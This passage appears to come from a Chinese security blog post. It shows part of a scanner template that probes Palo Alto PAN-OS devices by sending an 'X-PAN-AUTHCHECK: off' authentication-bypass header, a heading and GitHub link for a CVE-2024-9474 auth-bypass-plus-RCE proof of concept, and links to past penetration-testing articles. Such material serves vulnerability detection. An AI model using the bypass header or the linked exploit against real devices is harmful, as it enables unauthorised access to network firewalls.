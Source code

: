 ```

    headers:
      X-PAN-AUTHCHECK: off

    stop-at-first-match: true
    matchers-condition: and
    matchers:
      - type: word
        condition: or
        words:
          - "0.0.0"


      - type: status
        status:
          - 200

      - type: word
        part: header
        words:
          - "Expires: 0"
          - "PHPSESSID="
          - "application/json"
```  
  
  
**CVE-2024-9474-POC**  
  
  
PAN-OS auth bypass + RCE  
  
![](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUATdvp6luzLGWcJ715rkedKvHichR1A16WUFrkqmAxBLRkReI6ic5k0jcR0MzQMFfsRLkpTyp7hfZicw/640?wx_fmt=png&from=appmsg "")  
```
https://github.com/Chocapikk/CVE-2024-9474
```  
  
  
**4**►  
  
**往期精彩**  
  
[ 信息收集实战，进入某校内网 ](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509386&idx=1&sn=81e2f8a3ab497d0413f52a86861938c7&chksm=c09ad6daf7ed5fcc0019dbbce09b0c9137ddac5afab0f9ebce06db1d3349e8f94c87d562a643&scene=21#wechat_redirect)  

						  
  
  
[ 以攻筑防2024 | 香港网络安全攻防演练也开始了？ ](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509346&idx=1&sn=eb5865960f0ce0bb34e7575f2679914f&chksm=c09ad632f7ed5f24a729044a7478d7b06bb009f8ed269e32bb0f870b954dcdeff21db2d90b96&scene=21#wechat_redirect)  

						  
  
  
[ 永久的渗透攻防知识库|手慢无 ](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509335&idx=1&sn=b89b8eb5bcfea1fe55cddf0348e6e6cc&chksm=c09ad607f7ed5f117b47a81ad195fea930c2741ad4239b1f586db9a6bf05df41bb1b2ff6aeac&scene=21#wechat_redirect)  

						  
  
  
  
